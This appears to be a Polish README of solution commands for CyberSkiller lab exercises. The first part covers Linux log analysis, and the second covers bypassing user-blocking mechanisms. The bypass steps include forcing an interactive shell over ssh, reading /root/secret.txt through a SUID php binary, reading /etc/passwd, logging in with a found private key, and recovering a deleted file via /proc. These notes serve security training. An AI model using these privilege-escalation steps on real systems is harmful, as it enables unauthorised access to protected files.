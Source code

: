 ssh user@ip
user - alice

# Analiza Logów
## Zadanie 1 (Statystyki pliku z logami)
[CyberSkiller Environment - System Linux - Log file statistics - 5.1](https://youtu.be/1p7tmCbyFsE)
```shell
ssh -l alice 10.0.85.62
cat codebook.txt
cd /var/log
wc (word count)
cat codebook.txt | head -3497 | tail -1
```

## Zadanie 2 (Analiza logów z konkretnej daty)
[CyberSkiller Environment - System Linux - Log analysis by date - 5.2](https://www.youtube.com/watch?v=9J5H5H6TYV0&t=1s)

```shell
ssh -l alice 10.0.95.222  
cat audit.log
cat audit.log | grep 10:10:31
```

## Zadanie 3 (Analiza logów konkretnej długości)
[CyberSkiller Environment - System Linux - Log analysis by length - 5.3](https://youtu.be/4lRO81TjssA)

```shell
ssh -l alice 10.0.84.144
cd /var/log
cat audit.log | grep -E "^.{150,180}" (^E oznacza regex)
```

## Zadanie 4 (Analiza logów z konkretnego zakresu czasowego)
[CyberSkiller Environment - System Linux - Log analysis by time frame - 5.4](https://youtu.be/cz1N_5UT9PI)

```shell
ssh -l alice 10.0.122.15
cd /var/log
cat audit.log
cat audit.log | grep -e "08:0[0-2]:[0-5][0-9]"
```

## Zadanie 5 (Analiza logów konkretnej usługi)

[CyberSkiller Environment - System Linux - Log analysis by a particular service - 5.5](https://youtu.be/uHVRAqXXxAE)

```shell
ssh -l alice 10.0.56.0
cd /var/log
cat audit.log
cat audit.log | grep "vsftpd\|ftp\|xinetd"
```

## Zadanie 6 (Analiza nieudanych prób logowania się na SSH)
[CyberSkiller Environment - System Linux - Failed SSH login attempts analysis - 5.6](https://youtu.be/EiLWkwlr-WI)

```shell
ssh -l alice 10.0.44.186
cd /var/log
cat audit.log
cat audit.log |grep -E 'sshd.*failed'
cat audit.log |grep -E 'sshd.*invalid'
```

## Zadanie 7 (Analiza udanych prób logowania się na SSH)
[CyberSkiller Environment - System Linux - Successful SSH login attempts analysis - 5.7](https://youtu.be/WBp_073gFiI)

```shell
ssh -l alice 10.0.55.196
cd /var/log
cat audit.log
cat audit.log | grep opened
```

## Zadanie 8 (Analiza wielu nieudanych prób logowania się na SSH)
[CyberSkiller Environment - System Linux - Multiple failed SSH login attempts analysis - 5.8](https://youtu.be/Wo9RXZpXjdQ)

```shell
ssh -l alice 10.0.55.196
cd /var/log
cat audit.log
cat audit.log | grep user_
```

# Obejście prostych mechanizmów blokowania użytkowników
## Zadanie 1 (Automatyczne wylogowywanie)
[CyberSkiller Environment - Automatic logout - 7.1](https://www.youtube.com/watch?v=7gF8aXn0N5M&t=7s)
```shell
ssh -l alice 10.0.124.205
sftp  alice@10.0.124.205 (connection closed)
ssh -l  alice 10.0.124.205 "ls" (sprawdzenie ilości tabeli)
ssh -l  alice 10.0.124.205 "cat secret.txt" (wypisanie zawartości pliku)

# sposob zalogowania sie na konto
ssh -l alice 10.0.115.16 -t "sh -i"
ls
cat (filename)
```

## Zadanie 2 (Dostęp do plików w katalogu /root)
[CyberSkiller Environment - Access to files in the /root folder - 7.2](https://youtu.be/uUC-DHJmACA)
```shell
ll
cd archive 
ll
nano file.c
cat .file.sh
./file
/root/secret.txt
```

## Zadanie 3 (Dostęp do plików należących do użytkownika root)
[CyberSkiller Environment - Access to files belonging to the root user - 7.3](https://youtu.be/1DISmbatA2A)

```shell
ll
cd archive ll
ll
cat file.sh
./file
../root/secret.txt
```

## Zadanie 4 (Podwyższenie uprawnień użytkownika)
[CyberSkiller Environment - System Linux - User privilege escalation - 7.4](https://youtu.be/PKY6ULiuXug)

```shell
find / -perm /6000 2>/dev/null
php7.4 -f /root/secret.txt
```

## Zadanie 5 (Inna powłoka niż Bash)
[CyberSkiller Environment - System Linux - Shell other than Bash - 7.5](https://youtu.be/9vUhS8QU1hI)
```shell
cat /etc/passwd
cd /usr/bin
cat bob
cd
cd .ssh/
ll
ssh -l bob localhost -i bob_key.pem (enter fingerprint)
(reduce window size)
:e secret.txt
```

## Zadanie 6 (Usunięty plik)

[CyberSkiller Environment - System Linux - Deleted file - 7.6](https://youtu.be/n6bWUYs8qMw)
```shell
cd archive
ll
cat file.py
cd
ps aux
ps -x
(find PID of the python file)
cd /proc/
ls
cd (PID)
ls
cd fd
ll
cat ./3
```